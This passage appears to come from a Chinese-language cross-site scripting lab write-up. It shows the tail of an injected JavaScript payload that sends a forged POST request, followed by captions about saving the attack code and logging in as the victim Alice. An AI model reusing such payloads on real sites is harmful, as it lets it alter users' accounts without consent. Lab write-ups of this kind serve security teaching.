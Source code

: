```html
            Ajax = new XMLHttpRequest();
            // 配置HTTP请求方法为POST，请求的URL为sendurl，并设定为异步请求
            Ajax.open("POST", sendurl, true);
            Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
            Ajax.send(content);
        }
    }
</script>

```

注入攻击代码并保存：

![5-1](../image/5-1.png)

登录 Alice 账号，此时 Alice 的 About me 为空：

![5-2](../image/5-2.png)
